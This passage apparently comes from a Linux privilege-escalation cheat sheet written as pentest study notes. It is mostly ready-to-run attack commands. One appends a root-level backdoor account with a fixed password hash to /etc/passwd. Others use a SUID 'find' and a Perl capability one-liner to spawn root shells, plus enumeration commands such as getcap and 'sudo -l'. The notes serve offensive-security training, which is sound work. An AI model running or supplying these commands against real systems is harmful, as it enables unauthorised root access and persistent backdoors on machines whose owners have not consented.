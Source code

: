 ```bash
sudo shutdown -r now
```

## Abusing Password Authentication

If we have permissions to modify the /etc/passwd file we can add a new user:

```bash
openssl passwd w00t

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
```

# Insecure System Components

## Abusing Setuid Binaries and Capabilities (SUID)

- https://gtfobins.github.io/

These commands give an overview of the passwd process used to change passwords:

```bash
passwd

ps u -C passwd

grep Uid /proc/1932/status (1932 AND THE PID OF THE PROCESS)

cat /proc/1131/status | grep Uid (1131 AND THE PID OF THE USER BASH PROCESS)

ls -asl /usr/bin/passwd
```

In the case shown the _find_ utility has the SUID flag, so it is used to escalate privileges:

```bash
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

In the next case, we look for _capabilities_ to exploit:

```bash
/usr/sbin/getcap -r / 2>/dev/null

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## Abusing Sudo

Do some online research and figure out how to exploit sudo permissions.

```bash
sudo -l
```

